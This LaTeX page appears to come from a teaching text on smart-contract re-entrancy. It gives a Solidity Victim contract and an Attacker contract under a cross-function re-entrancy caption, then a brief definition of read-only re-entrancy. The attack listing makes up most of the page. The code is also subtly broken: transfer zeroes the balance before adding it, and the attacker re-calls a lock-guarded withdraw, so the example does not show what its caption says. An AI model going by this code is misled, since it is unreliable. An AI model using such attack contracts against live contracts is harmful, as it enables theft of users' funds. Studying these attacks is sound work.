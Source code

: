 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity, caption=Cross-Function Re-Entrancy Example]
contract Victim {
    mapping(address => uint) private balances;
    bool locked;

    modifier noReentrant() {
        require(!locked, "ReentrancyGuardError");
        locked = true;
        _;
        locked = false;
    }

    function withdraw() public noReentrant {
        uint amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success);
        balances[msg.sender] = 0;
    }

    function transfer(address to) public {
        balances[msg.sender] = 0;
        balances[to] += balances[msg.sender];
    }

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }
}

contract Attacker {
    Victim victim;
    uint256 private initialDeposit;

    constructor(address _vulnerable) {
        victim = Victim(_vulnerable);
    }

    function attack() public payable {
        initialDeposit = msg.value;
        victim.deposit{value: msg.value}();
        victim.withdraw();
    }

    receive() external payable {
        if (address(victim).balance > initialDeposit) {
            victim.withdraw();
        }
    }
}
\end{lstlisting}
\end{minipage}

\noindent
Play around with this code example in \href{https://remix.ethereum.org/?#activate=solidity&url=https://github.com/radovluk/unbreakable-vault/contracts/reentrancy02.sol&lang=en&optimize=false&runs=200&evmVersion=null&version=soljson-v0.8.28+commit.7893614a.js}{prepared file in REMIX IDE}.

\subsection{Read-Only Re-Entrancy}

Read-only re-entrancy is a particular case of cross-contract re-entrancy attacks. This vulnerability occurs when a smart contract's behavior depends on the state of another contract. While attackers usually target state-changing functions, view functions can also provide outdated state information during a cross-contract re-entrancy. This scenario can lead to the exploitation of third-party infrastructure.
\end{document}
